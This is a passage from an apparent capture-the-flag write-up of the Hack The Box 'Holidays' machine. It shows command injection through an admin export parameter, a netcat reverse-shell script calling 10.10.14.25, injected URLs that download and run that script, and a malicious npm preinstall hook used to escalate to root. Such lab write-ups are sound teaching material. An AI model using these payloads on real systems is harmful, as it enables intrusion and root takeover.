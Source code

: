 When logged in as an administrator, there is a possiblity to export bookings or notes by pushing the buttons at the bottom of the page shown above. Pushing one of the buttons sends a `GET` requests to the "/admin/export" endpoint which includes a table name in a parameter named "table". After trying to send a variety of URL encoded special characters through this parameter, it is possible to deduce that the value of the `table` parameter is placed in a bash command which is executed. However, there is a filter in place which only allows for certain characters. One of the characters is the ampersand character `&` which can be used to execute any bash commands which can pass the filter.

{% highlight bash linenos %}
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9000 >/tmp/f
{% endhighlight %}

Armed with this information, we can create a file named `rs` with the reverse shell payload content above (Note that the IP has to be changed to the IP of your computer). We place this in the web server root of the Python web server started earlier. We then start a listener by executing the command `nc -lvnp 9000` and visit the two URLs below while logged in as an administrator. This downloads and executes the `rs` file on the target host. Note that `%26` is the URL encoded representation of the ampersand character `&`.

{% highlight none linenos %}
http://10.10.10.25:8000/admin/export?table=x%26wget+168431129/rs
http://10.10.10.25:8000/admin/export?table=x%26bash+rs
{% endhighlight %}

Once these two URLs have been visited, the netcat listener receives a connection from the target and we are greeted with a bash prompt, as can be seen below.

![rce](/assets/2021-10-30-HTB-Holidays-Source-Code-Analysis/rce.png)

The next step is to perform a privilege escalation to get code execution as `root`. The privilege escalation can be performed by abusing sudo rights on npm. By executing `sudo -l`, it is possible to see the line `(ALL) NOPASSWD: /usr/bin/npm i *` which means that we can install arbitrary NodeJS packages with root privileges. This could be dangerous as it is possible install a NodeJS package which executes a set of bash commands before the installation process begins. 

To create such a package, we execute the command `mkdir privescPackage` and create a file named "package.json" in the newly created directory `privescPackage`. We then fill the `package.json` file with the content below. At line 5 to 7, we define a preinstall script which states that the command `/bin/bash -i` should be executed before the installation begins. Note that we won't need to create the main file `index.js`, defined on line 4, since the payload should be executed before the installation. 

{% highlight json linenos %}
{
  "name": "privescPackage",
  "version": "1.0.0",
  "main": "index.js",
  "scripts": {
    "preinstall": "/bin/bash -i"
  }
}
{% endhighlight %}
